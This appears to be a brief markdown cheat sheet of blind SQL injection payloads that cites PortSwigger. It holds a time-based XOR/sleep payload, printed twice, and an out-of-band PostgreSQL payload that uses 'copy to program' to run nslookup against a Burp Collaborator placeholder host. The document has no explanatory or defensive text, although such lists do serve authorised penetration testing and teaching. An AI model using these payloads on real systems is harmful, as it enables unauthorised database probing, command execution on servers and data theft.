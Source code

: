 # Blind SQL

https://portswigger.net/web-security/sql-injection/cheat-sheet
### Payloads

```
XOR(if(now()=sysdate(),sleep(5),0))XOR
```

```
XOR(if(now()=sysdate(),sleep(5),0))XOR
```

### OAST Payloads

```
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
```

